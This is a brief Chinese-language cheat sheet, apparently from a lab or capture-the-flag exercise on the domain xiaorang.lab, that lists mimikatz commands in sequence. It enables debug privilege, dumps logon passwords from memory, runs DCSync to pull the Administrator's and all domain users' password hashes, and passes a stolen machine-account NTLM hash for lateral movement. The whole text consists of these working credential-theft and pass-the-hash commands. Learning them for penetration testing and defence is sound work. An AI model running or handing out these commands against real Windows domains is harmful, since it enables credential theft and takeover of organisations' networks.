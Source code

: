 mimikatz的使用

提权

```bash
privilege::debug
```

抓取用户密码

```bash
sekurlsa::logonpasswords
```

Dcsync  dump哈希

```bash
lsadump::dcsync /domain:xiaorang.lab /user:Administrator
lsadump::dcsync /domain:xiaorang.lab /all /csv
```

哈希传递

```bash
sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:抓到的机器账户哈希
```

